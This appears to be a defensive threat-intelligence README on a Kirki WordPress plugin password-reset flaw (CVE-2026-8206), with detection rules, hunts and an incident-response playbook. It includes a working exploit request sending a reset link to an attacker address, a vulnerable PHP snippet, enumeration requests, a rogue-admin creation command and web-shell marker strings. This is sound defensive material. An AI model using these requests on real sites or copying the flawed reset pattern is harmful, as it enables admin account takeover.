

# Kirki CVE-2026-8206 — unauthenticated admin account takeover via password-reset-to-attacker-email on 150K WordPress sites

## TL;DR

On 2026-06-02 Wordfence/Defiant disclosed **CVE-2026-8206** (CVSS 9.8, CWE-269 improper privilege management) in the **Kirki — Freeform Page Builder, Website Builder & Customizer** WordPress plugin. The plugin's `handle_forgot_password()` handler in `ComponentLibrary/controller/CompLibFormHandler.php` accepts an **attacker-supplied destination email** for a password-reset request instead of validating against the account's registered address — so an unauthenticated attacker who knows a username (trivially enumerable) sends one HTTP request with target `username` + their own `email`, receives the reset link, and takes over **any account including administrator**. Kirki ships on 500,000+ sites; ~150,000 ran a vulnerable version (6.0.0–6.0.6) at disclosure. The fix is **6.0.7** (2026-05-18). Early opportunistic exploitation was already being blocked by Wordfence within 24h of disclosure; with no auth and no user interaction, mass weaponisation is expected within days. This is a logic flaw, not a memory bug — there is no payload to fingerprint, so the durable detection is *behavioural*: a reset link sent to an email that does not match the user's stored address.

## Attribution and confidence

- **Cluster:** unattributed. This is a commodity, internet-wide vulnerability class (WordPress plugin auth-bypass); early hits are automated scanners and opportunistic operators, not a named actor. Confidence on "who": **low** (no actor). Confidence on the **vulnerability and active scanning**: **high** (triangulated across Wordfence/Defiant, Orca, SecurityWeek, Tenable/Rapid7, NVD).
- **Discovery / disclosure:** reported by Wordfence (Defiant); public advisories 2026-06-01/02. Patched upstream in Kirki 6.0.7 on 2026-05-18 (silent fix preceded public disclosure — a classic patch-gap window).
- **Exploitation status (honest, sources disagree on volume):** BleepingComputer/Orca cite Wordfence telemetry of blocked attempts in the first 24h (figures reported between ~59 and ~222 across write-ups); Threat-Modeling.com cautioned that *large-scale* exploitation was not yet publicly confirmed on 2026-06-02. Net read: **early/limited active exploitation, mass exploitation imminent** — treat as exploited.

| Overlap dimension | Detail | Confidence |
|---|---|---|
| Vulnerability identity | CVE-2026-8206, CWE-269, CVSS 9.8 (AV:N/AC:L/PR:N/UI:N/C:H/I:H/A:H) | high |
| Affected code | `CompLibFormHandler::handle_forgot_password()`, Kirki 6.0.0–6.0.6 | high |
| Active scanning | Wordfence blocked attempts <24h post-disclosure | medium-high |
| Named threat actor | none | n/a |

**Genealogy with previous repo cases.** This is the repo's **first primary in slot #26 (AppSec / web exploitation)**. It rhymes with prior identity/takeover cases — `2026-05-06_CodeOfConduct-AiTM-Storm-1747` and `2026-05-20_Storm-2949-Cloud-Identity-SSPR` both abused **password-reset / SSPR** flows for account takeover — but those were cloud-identity (Entra) plane; this is the **application plane** (a PHP password-reset handler that trusts attacker input). The post-exploitation web-shell tail overlaps thematically with edge-appliance footholds (`2026-04-30_FIRESTARTER-LINE-VIPER-UAT4356`).

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Reconnaissance | T1595.002, T1589.002, T1087.001 | Username enumeration via `?author=N` redirects, `/wp-json/wp/v2/users`, and login error messages to obtain a valid `user_login` (e.g. `admin`) |
| Initial Access | T1190 | Single unauthenticated POST to the Kirki forgot-password REST/AJAX endpoint with target `username` + attacker-controlled `email` |
| Credential Access / Manipulation | T1098 | Plugin emails the password-reset link to the attacker address; attacker sets a new password for the targeted (admin) account |
| Valid Accounts | T1078 | Attacker authenticates to `/wp-admin/` as the hijacked administrator |
| Persistence (rogue account) | T1136.001 | Optional creation of a second administrator user to survive password resets |
| Persistence (web shell) | T1505.003, T1059.004 | Admin plugin/theme editor or media upload writes a PHP web shell under `wp-content/uploads/` or a malicious mu-plugin |
| C2 / Exfil | T1071.001, T1105, T1041 | Web shell pulls second-stage from `raw.githubusercontent`/paste sites; data exfil over HTTP(S) |



The diagram is a single-lane timeline (Template C): recon → unauthenticated reset abuse → reset link delivered to the attacker mailbox → admin login → rogue-admin / web-shell persistence → C2 and exfil. The red badges mark the two highest-signal detection anchors: the **reset-email-recipient mismatch** (application-log truth, ~0% FP) and the **new PHP file under `wp-content/uploads`** executed by the web service account.

## Stage-by-stage detail

### Reconnaissance — username discovery (T1595.002, T1589.002, T1087.001)

The exploit needs one valid `user_login`. WordPress leaks usernames by default through author archives, the REST users route, and login responses:

```
GET /?author=1                       -> 301 to /author/<login>/
GET /wp-json/wp/v2/users             -> JSON array of {id, name, slug}
POST /wp-login.php (wrong password)  -> "The password for username X is incorrect"
```

`admin`, `editor`, and the site owner's slug are the usual targets.

### Initial Access — the forgot-password logic flaw (T1190)

Root cause is in `ComponentLibrary/controller/CompLibFormHandler.php` (~L330), function `handle_forgot_password()`. The handler reads the destination email **from the request** rather than from `get_user_by('login', $username)->user_email`, then calls the WordPress reset-key mailer to that attacker address. Conceptually:

```php
// VULNERABLE (Kirki 6.0.0-6.0.6, simplified):
$username = sanitize_text_field($_POST['username']);
$email    = sanitize_email($_POST['email']);     // attacker-controlled destination
$user     = get_user_by('login', $username);
$key      = get_password_reset_key($user);
wp_mail($email, 'Password reset', $reset_link);  // sent to ATTACKER, not $user->user_email
```

The request is a single unauthenticated POST to the plugin's front-end account-management endpoint (registered as a custom REST route / `admin-ajax.php` action; the exact namespace varies by install and front-end config — tune the network rules to the observed route):

```
POST /wp-json/<kirki-namespace>/forgot-password HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=admin&email=attacker@evil.example
```

CWE-269 (improper privilege management): the bug is **trusting attacker input for the email destination**, not a missing nonce alone.

### Credential Access / Manipulation and Valid Accounts (T1098, T1078)

The attacker receives the standard WordPress reset link (`wp-login.php?action=rp&key=...&login=admin`), sets a new password, and logs in to `/wp-admin/` as a full administrator. From here they have CMS-level RCE by design (plugin/theme editor, plugin upload).

### Persistence — rogue admin and web shell (T1136.001, T1505.003, T1059.004)

Common post-takeover actions:

```bash
# rogue admin (via wp-admin UI or, if shell obtained, WP-CLI)
wp user create cdnsvc cdnsvc@mail.example --role=administrator

# PHP web shell dropped via media upload or theme editor
# wp-content/uploads/2026/06/icon.php  (eval over request input)
```

The web service account (`www-data`, `apache`, `nginx`, or `php-fpm`) then spawns shells/LOLBins (`sh -c`, `curl`, `wget`) — the highest-confidence host signal that a PHP foothold became code execution.

### C2 / Exfiltration (T1071.001, T1105, T1041)

The web shell fetches second-stage tooling from raw code hosts (`raw.githubusercontent.com`, paste/transfer services) and exfiltrates site/user data over HTTP(S).

## Detection strategy

### Telemetry that matters

- **Web/proxy access logs** (nginx/apache, WAF, CDN): POST to the Kirki forgot-password route; `?author=` and `/wp-json/wp/v2/users` enumeration bursts. This is the front line.
- **WordPress application layer**: password-reset events and the **destination email** vs the user's stored email (the FP-free signal); new administrator creation; plugin/theme file edits. Surface via a security plugin audit log, `wp_mail` hooks, or DB triggers shipped to the SIEM.
- **Host EDR on the web server** (Microsoft Defender for Endpoint / Linux): `DeviceFileEvents` for new `.php` under `wp-content/uploads`; `DeviceProcessEvents` for web-service-account shell spawns; `DeviceNetworkEvents` for outbound to raw-code/paste hosts.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/kirki_forgot_password_rest_abuse.yml` | webserver POST to a `*forgot*password*` route carrying an `email=` parameter (exploit attempt) |
| Sigma | `sigma/wordpress_user_enumeration_rest_author.yml` | webserver GET of `/wp-json/wp/v2/users` or `?author=` enumeration precursor |
| Sigma | `sigma/wp_webshell_php_drop_uploads.yml` | file_event: new/modified `.php` under `wp-content/uploads/` (web-shell drop) |
| KQL | `kql/wp_php_webshell_dropped_uploads.kql` | `DeviceFileEvents` PHP written under uploads by web service account |
| KQL | `kql/wp_webservice_account_shell_spawn.kql` | `DeviceProcessEvents` apache/nginx/php-fpm spawning sh/bash/curl/wget |
| KQL | `kql/wp_host_outbound_rawcode_pull.kql` | `DeviceNetworkEvents` web host fetching from raw-code/paste hosts |
| YARA | `yara/php_webshell_kirki_followon.yar` | 2 rules — generic PHP eval-over-input web shell + injected WP admin/auth-bypass backdoor |
| Suricata | `suricata/kirki_cve_2026_8206.rules` | 3 sids — forgot-password exploit POST, WP REST user enumeration, PHP web-shell request under uploads |

No SPL is shipped (retired repo-wide 2026-05-11); convert any Sigma with `sigma convert -t splunk -p sysmon <rule>.yml` if needed.

### Threat hunting hypotheses

- **H1 — Reset-recipient mismatch (PEAK):** `hunts/peak_h1_reset_email_mismatch.md`. Hypothesis: if exploited, password-reset emails were sent to addresses that do not match the target users' stored emails. ~0% FP; the single most decisive signal.
- **H2 — New admin / privilege drift post-disclosure (PEAK):** `hunts/peak_h2_new_admin_after_disclosure.md`. Hypothesis: a successful takeover left a changed admin password/email or a freshly created administrator after 2026-06-02.
- **H3 — Web-shell foothold on WordPress hosts (PEAK):** `hunts/peak_h3_webshell_foothold.md`. Hypothesis: post-takeover, a PHP file under `wp-content/uploads` exists and/or the web service account spawned a shell.

## Incident response playbook

### First 60 minutes (triage)

1. Inventory Kirki version across all sites (`wp plugin get kirki --field=version` or file `kirki/kirki.php` header); flag any 6.0.0–6.0.6.
2. Update to **6.0.7+** immediately, or disable the plugin if you cannot patch this hour.
3. Pull web access logs for POSTs to the forgot-password route and `?author=`/`wp-json/wp/v2/users` enumeration since 2026-05-18 (patch date — covers the silent-fix gap).
4. Diff `wp_users`/`wp_usermeta`: list administrators, last password-change, and email changes since 2026-05-18.
5. Force-logout all users and require admin password resets (`wp user session destroy --all` per user).

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Web access log | `/var/log/nginx/access.log*`, `/var/log/apache2/access.log*` | grep/zcat | Exploit POSTs + enumeration |
| WP debug / mail log | `wp-content/debug.log`, mail relay logs | grep | Reset emails to foreign domains |
| Users table | `wp_users`, `wp_usermeta` | `wp db query` / mysqldump | Rogue/altered admins |
| Uploads tree | `wp-content/uploads/**` | `find -name '*.php'` | PHP web shells |
| Plugins/themes | `wp-content/plugins`, `wp-content/themes`, `mu-plugins` | `wp plugin/theme list`, file diff | Injected backdoors |
| Web host EDR | DeviceFileEvents/ProcessEvents | Defender / auditd | Shell spawns, file drops |

### IR queries and commands

```bash
# Exploit attempts (forgot-password POST) and enumeration in web logs
grep -Ei 'forgot.?password' /var/log/nginx/access.log* | grep -i 'POST'
grep -E '\?author=[0-9]+|/wp-json/wp/v2/users' /var/log/nginx/access.log*

# PHP files under uploads (should normally be ZERO)
find wp-content/uploads -type f -name '*.php' -printf '%TY-%Tm-%Td %p\n' | sort

# Administrators and recent password/email changes
wp user list --role=administrator --fields=ID,user_login,user_email,user_registered
wp db query "SELECT u.user_login,u.user_email,m.meta_value AS last_pw \
 FROM wp_users u LEFT JOIN wp_usermeta m ON u.ID=m.user_id \
 AND m.meta_key='session_tokens';"
```

```kql
// Web-service account spawning a shell on the WordPress host (Defender XDR)
DeviceProcessEvents
| where InitiatingProcessFileName in~ ("apache2","httpd","nginx","php-fpm","php")
| where FileName in~ ("sh","bash","dash","curl","wget","python3","perl")
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine, AccountName
```

### Containment, eradication, recovery

- **Containment:** patch/disable Kirki; block the forgot-password route at the WAF/CDN; rotate all admin credentials and WordPress salts (`wp config shuffle-salts`).
- **Eradication:** remove rogue admins, delete PHP files under `uploads`, restore plugins/themes/mu-plugins from known-good, remove injected `functions.php`/mu-plugin backdoors.
- **Exit criteria:** Kirki ≥6.0.7 everywhere; no admin with an unexplained password/email change since 2026-05-18; zero PHP under `uploads`; no web-service-account shell spawns.
- **What NOT to do:** do not rely on "no Wordfence alert" as all-clear (silent fix predates public rules); do not just reset the one obvious admin — enumerate *all* admins and check for a second planted account; do not leave the plugin active "until maintenance window" on an internet-facing site.

### Recovery validation

Re-run the uploads PHP scan and the admin-diff after cleanup; confirm `wp plugin get kirki --field=version` ≥ 6.0.7 on every host; replay a benign forgot-password to confirm the patched flow only mails the user's registered address; watch web logs 72h for repeat exploit POSTs from the same source ranges.

## IOCs

This is a logic vulnerability — there are **no fixed network IOCs**; the attacker's `username`/`email` and source IP vary per target. The table below is detection-anchoring context, not blocklist material. Full list in `iocs.csv`.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| cve | CVE-2026-8206 | Kirki unauthenticated account takeover, CVSS 9.8 | high | NVD/Wordfence |
| string | handle_forgot_password | Vulnerable handler name | high | Kirki Trac / Threat-Modeling.com |
| path | ComponentLibrary/controller/CompLibFormHandler.php | Vulnerable source file (~L330) | high | Kirki Trac |
| string | kirki 6.0.0 - 6.0.6 | Vulnerable version range; fixed in 6.0.7 (2026-05-18) | high | Wordfence/NVD |
| note | reset email != user stored email | Highest-signal exploitation indicator (app log) | high | analysis |
| note | POST *forgot*password* + email= param | Exploit request shape (route varies by install) | medium | analysis |
| path | wp-content/uploads/**/*.php | Web shell drop location post-takeover | medium | analysis |
| note | GET /wp-json/wp/v2/users ; ?author=N | Username enumeration precursor | high | WordPress |
| string | eval($_POST / assert($_REQUEST / base64_decode( | Generic PHP web-shell markers (follow-on) | medium | analysis |

## Secondary findings

- **Miasma: The Spreading Blight (supply chain, #7/#31).** 2026-06-01 Microsoft/Orca/Snyk/Wiz reported 32 trojanised `@redhat-cloud-services` npm packages (90+ versions) published through the legitimate **GitHub Actions OIDC trusted-publisher** flow after a Red Hat employee's GitHub account was compromised — so the malicious versions carried **valid SLSA provenance attestations** (forged via Sigstore Fulcio/Rekor). A `preinstall` hook ran a 4.29 MB obfuscated dropper that pulls Bun, sweeps GitHub/AWS/GCP/Azure/Vault/K8s/SSH/npm secrets (and scrapes CI runner memory), adds a passwordless-sudo rule, and self-propagates by republishing maintainer packages. A lightly reskinned descendant of TeamPCP's open-sourced (Mini) Shai-Hulud worm (repo cases: `2026-04-29_ShaiHulud-Bitwarden`, `2026-05-14_Mini-Shai-Hulud-TeamPCP-Mega-Campaign`, `2026-05-21_TeamPCP-48h-Multi-Vector-SupplyChain`). The durable lesson: **provenance attestation proves build origin, not benignity** — a trusted-publisher flow with a stolen identity emits "valid" provenance.
- **Netlogon RCE CVE-2026-41089 (DFIR Windows/AD, #12).** Orca flagged (2026-06-02) a critical, actively exploited Netlogon RCE against Windows domain controllers — a separate, higher-blast-radius bug worth its own primary; noted here for awareness.
- **Burst Statistics plugin flaw (AppSec, #26).** SecurityWeek paired the Kirki advisory with a concurrently-targeted vulnerability in the Burst Statistics WordPress plugin — same week, same "vulnerable plugin on many sites + fast opportunistic scanning" pattern; another reason to treat plugin patch-gaps as an active class, not isolated CVEs.

## Pedagogical anchors

- **A logic bug has no signature.** CVE-2026-8206 ships no shellcode and no fixed payload — hash/YARA-first thinking is blind to it. Detect the *behaviour*: a reset link mailed to an address that does not match the account's stored email is a near-zero-FP signal that no scanner string can replace.
- **Patch-gap is a window, not a point.** The fix (6.0.7) landed 2026-05-18, public disclosure ~2026-06-02. Hunt from the *patch* date, not the disclosure date — silent fixes are reverse-engineered before defenders get rules.
- **Self-service account flows are privilege boundaries.** Any endpoint that emails a reset/SSPR link must bind the destination to the server-side record, never to client input. The cloud-identity version of this same class is in `2026-05-20_Storm-2949-Cloud-Identity-SSPR`.
- **"No WAF alert" is not "not exploited."** Internet-facing CMS plugins are weaponised within days of a 9.8/PR:N disclosure; assume exploitation and verify by artifact (admin diff, uploads scan), not by absence of an alert.
- **Reduce the precondition.** This exploit needs a known username — disabling WordPress user enumeration (`?author=`, REST users route) raises the cost of this and the next account-targeting bug.

## What's in this folder

| File | Purpose |
|---|---|
| `README.md` | This analysis. |
| `kill_chain.svg` | Single-lane timeline (Template C) of the recon→takeover→persistence→exfil chain. |
| `sigma/kirki_forgot_password_rest_abuse.yml` | Webserver Sigma for the forgot-password exploit POST. |
| `sigma/wordpress_user_enumeration_rest_author.yml` | Webserver Sigma for username enumeration precursor. |
| `sigma/wp_webshell_php_drop_uploads.yml` | File-event Sigma for PHP web-shell drop under uploads. |
| `kql/wp_php_webshell_dropped_uploads.kql` | Defender XDR: PHP file written under uploads by web account. |
| `kql/wp_webservice_account_shell_spawn.kql` | Defender XDR: web-service-account shell/LOLBin spawn. |
| `kql/wp_host_outbound_rawcode_pull.kql` | Defender XDR: outbound to raw-code/paste hosts from web server. |
| `yara/php_webshell_kirki_followon.yar` | 2 YARA rules for follow-on PHP web shells / WP backdoors. |
| `suricata/kirki_cve_2026_8206.rules` | 3 Suricata sids: exploit POST, REST user enum, web-shell request. |
| `hunts/peak_h1_reset_email_mismatch.md` | PEAK hunt: reset-email-recipient mismatch. |
| `hunts/peak_h2_new_admin_after_disclosure.md` | PEAK hunt: new/altered admin after disclosure. |
| `hunts/peak_h3_webshell_foothold.md` | PEAK hunt: web-shell foothold on WordPress hosts. |
| `iocs.csv` | Detection-anchoring context rows (CVE, paths, behavioural notes). |

## Sources

- [Orca Security — Critical WordPress Plugin Vulnerability Allows Unauthenticated Admin Takeover on 150K Sites (CVE-2026-8206)](https://orca.security/resources/blog/kirki-wordpress-plugin-vulnerability-cve-2026-8206/)
- [BleepingComputer — Critical Kirki flaw exploited to hijack WordPress admin accounts](https://www.bleepingcomputer.com/news/security/critical-kirki-flaw-exploited-to-hijack-wordpress-admin-accounts/)
- [Threat-Modeling.com — Kirki WordPress Plugin Account Takeover (CVE-2026-8206)](https://threat-modeling.com/kirki-wordpress-plugin-account-takeover-cve-2026-8206/)
- [SecurityWeek — Kirki, Burst Statistics WordPress Plugin Flaws in Attackers' Crosshairs](https://www.securityweek.com/kirki-burst-statistics-wordpress-plugin-flaws-in-attackers-crosshairs/)
- [Tenable — CVE-2026-8206](https://www.tenable.com/cve/CVE-2026-8206)
- [Rapid7 — WordPress Plugin: kirki: CVE-2026-8206](https://www.rapid7.com/db/vulnerabilities/kirki-plugin-cve-2026-8206/)
- [cvefeed.io — CVE-2026-8206: Kirki 6.0.0–6.0.6 Unauthenticated Privilege Escalation via handle_forgot_password](https://cvefeed.io/vuln/detail/CVE-2026-8206)
- [Microsoft Security Blog — Preinstall to persistence: Inside the Red Hat npm Miasma credential-stealing campaign](https://www.microsoft.com/en-us/security/blog/2026/06/02/preinstall-persistence-inside-red-hat-npm-miasma-credential-stealing-campaign/)
- [Orca Security — Red Hat npm Packages Compromised in Supply-Chain Attack Spreading Credential-Stealing Worm (Miasma)](https://orca.security/resources/blog/red-hat-npm-supply-chain-attack/)
